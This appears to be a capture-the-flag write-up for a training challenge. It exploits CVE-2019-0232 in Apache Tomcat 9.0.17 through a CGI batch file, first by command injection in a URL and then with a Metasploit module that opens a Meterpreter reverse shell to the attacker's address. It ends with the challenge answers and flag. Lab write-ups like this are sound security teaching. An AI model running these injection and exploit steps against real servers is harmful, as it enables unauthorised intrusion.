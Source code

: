 # Day 12 Challenge
## Ready, Set, Elf

In this challnege we get to know about CVE's and how to use to our advantage using metasploit.

First we deploy the machine and do nmap scan to find the running services on the machine 

`nmap -Pn <IP Addr>`

We can see we have web service running on the machine.

Now lets open it and see what apache version the server is running. 

It looks like Apache 9.0.17 is running on the server

Lets search for if there is any known exploits for apache tomcat 9.0.17, looks like we have known exploit `CVE-2019-0232` which an individual can abuse the scripts stored in /cgi-bins/ or /cgi/ folders to his ownadvantage.

As in the challenge discription it says we have a script stored in cgi bin `elfwhacker.bat`

Lets try to open the link 

http://IP addr/cgi/elfwhacker.bat?&ls

Hmmm... we got the list of files in the directories now lets fire up metasploit and let it do the hardwork for us.

...
	
	> msfconsole
		/Lets search for CVE that we found earlier
	> search CVE-2019-0232
		/we got something nice lets use it 
	> Use 1
	> show OPTIONS
		/And set the RHOSTS and RPORT accordingly.
	> set RHOSTS <IP address of the machine>
	> set RPORT <Port on the webserver running on>
	> set TARGETURI /cgi/elfwhacker.bat
	> set LHOST <Your vpn ip>
		/Now lets run our exploit
	> run
		/Wait for few seconds untill the shell is pwnd.
	meterpreter> ***
		/Now lets type shell to get the windows shell
	meterpreter> shell
	shell> 
		/Now go ahead and find the flag1.txt

...

### Questions

...

	1. What is the version number of the web server?
		- Ans: 9.0.17

	2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)
		- Ans: CVE-2019-0232

	3. Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.
		- Ans: No answer needed!

	4. What are the contents of flag1.txt?
		- Ans: thm{whacking_all_the_elves}

	5. Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
		-Ans: No answer needed!

...

Thank You!!!
<3